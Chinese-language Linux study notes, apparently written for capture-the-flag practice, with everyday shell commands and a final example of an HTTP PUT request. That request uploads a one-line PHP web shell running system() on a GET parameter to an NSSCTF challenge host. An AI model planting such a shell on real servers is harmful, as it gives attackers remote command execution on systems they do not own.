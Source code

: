 # linux

## 通用命令



### 配置快捷打开

```nginx
vim .zshrc

# 设置需要全局打开的文件目录所在
alias typora='/usr/bin/typora'

source ~/.zshrc
```



### 查看计划任务

```nginx
# 列出当前系统上所有服务的启动状态
systemctl list-unit-files --type=service

# 所有文件和脚本，这些是启动时运行的服务脚本
ls /etc/init.d/
```



### 获取信息命令

```nginx
# 查看安装的shell
cat /etc/shells

# 查看本机外网ip
curl ifconfig.me
```



### http

**PUT请求**

```nginx
# 可以向服务器上传或者更新资源
# 案例
PUT /e.php HTTP/1.1
Host: node4.anna.nssctf.cn:28905
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.51 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: adminsid=j4lmgm36j0s3rd4oknqsq691l2; adminLang=zh-cn; adminDevice=desktop; theme=default; currentGroup=design
Connection: close
Content-Length: 32

<?php
system($_GET['cmd']);
?>
```
